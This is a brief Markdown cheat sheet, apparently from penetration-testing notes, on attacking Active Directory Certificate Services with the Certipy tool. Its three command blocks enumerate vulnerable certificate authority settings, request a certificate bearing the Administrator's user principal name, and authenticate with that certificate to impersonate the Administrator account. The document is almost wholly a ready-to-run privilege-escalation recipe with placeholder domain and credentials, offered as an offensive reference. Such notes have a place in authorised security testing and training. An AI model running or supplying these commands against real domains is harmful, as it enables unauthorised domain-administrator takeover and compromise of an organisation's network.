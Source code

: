 # ADCS

## Certipy

Enumerate Certificate Authority configurations to find vulnerable settings:

```bash
certipy-ad find -u amogus@{DOMAIN} -p password -vulnerable -stdout -debug
```

Requesting a certificate with certipy:

```bash
certipy-ad req -k -no-pass -ca amgs-DC-CA -upn Administrator -target {DOMAIN}
```

Impersonating account with certificate:

```bash
certipy-ad auth -pfx admin.pfx -username Administrator -domain {DOMAIN}
```
